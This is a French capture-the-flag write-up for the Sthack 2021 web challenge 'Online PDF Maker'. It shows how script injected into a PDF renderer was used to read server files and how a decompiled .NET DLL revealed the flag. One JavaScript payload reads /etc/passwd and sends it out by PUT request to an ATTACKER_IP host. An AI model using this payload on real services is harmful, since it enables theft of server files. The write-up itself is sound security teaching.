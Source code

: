 ```yaml
---
title: Web - Online PDF Maker
category: Sthack2021
author: karzemrok
tags:
- sthack2021
- web
- ctf
description: "Writeup Sthack 2021 - Online PDF Maker - WEB"
---
```


L'application disponible nous propose d'entrer un texte et de le transformer en PDF

![]({{site.url}}/static/upload_412dab4cc8bb5e4a25db2b393616317d.png)

Une vulnérabilité courante ici, c'est l'XSS dans le moteur de rendu du PDF. Il est possible de le vérifier avec le payload suivant:

```html
<script>
document.write('test');
</script>
```

![]({{site.url}}/static/upload_dd513641a33e58411ece557d3e82cfe2.png)

Il peut être aussi intéressant de savoir d'où est rendu le PDF

```html
<script>
document.write(document.location);
</script>
```

![]({{site.url}}/static/upload_649b2b7457c62b1ec90c026cd3d5b20f.png)

Comme le PDF est rendu depuis un fichier (**file:///tmp/wktemp...**), nous allons pouvoir exfiltrer des fichiers. Nous pouvons par exemple extraire **/etc/passwd** de cette façon

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
    var x2 = new XMLHttpRequest();
    x2.open("PUT", 'http://ATTACKER_IP/sthack/passwd');
    x2.send(this.response)
};
x.open("GET","file:///etc/passwd");
x.responseType = 'arraybuffer';
x.send();
</script>
```

Maintenant que nous sommes en mesure de télécharger des fichiers sur la machine, il nous faut trouver des fichiers intéressants (comme les sources par exemple). Nous avons un indice dans l'HTML de l'application

![]({{site.url}}/static/upload_755639ef667bd38587be7cbcf89d83f0.png)

Nous savons que l'application est de l'ASP.net, il faut donc chercher un fichier **dll**. En tâtonnant un peu, on trouve que le nom du fichier dll est le même que le copyright : `OnlinePdfMaker.dll`

Une fois la Dll décompilée avec [ILSpy](https://github.com/icsharpcode/ILSpy), on trouve ce bout de code qui semble gérer l'affichage du flag:

```csharp
string text = "";
string s = "FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6";
string text2 = "VGhlRmxhZ0lzU29tZXdoZXJlX3VzZV95b3VyX2JyYWlu";
text2 = text2.Substring(1, 1) + text2.Substring(1, 1) + text2.Substring(32, 1) + text2.Substring(4, 1) + text2.Substring(9, 1);
text2 += Encoding.Default.GetString(Convert.FromBase64String("ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp"));
if (!string.Equals(keyValue, text2))
{
	text = ((keyValue != null && !keyValue.Equals("")) ? "Wrong key" : "");
}
else
{
	string text3 = EncryptModel.XORCipher(Encoding.Default.GetString(Convert.FromBase64String(s)), text2);
	text = "flag : " + text3;
}
```

Après la ligne 4, text2 à la valeur `GGbR0`. A cette valeur, on ajoute `ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp` dans sa forme base64 décodée (`don't_guess_look_at_the_code!!_;)`)

Ensuite cette variable est utilisée en tant que clé XOR pour la valeur base64 décodée de `FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6`

Ce qui nous donne le flag `STHACK{W3ll_D0ne_\o/_U_f0und_Th3_c0d3!}`

On aurait aussi pu mettre `GGbR0don't_guess_look_at_the_code!!_;)` dans le paramètre `keyValue` du formulaire de génération de PDF pour voir le flag injecté dans le PDF directement.

![]({{site.url}}/static/upload_d6efbae1ee68a7ac33ac12d65656320b.png)

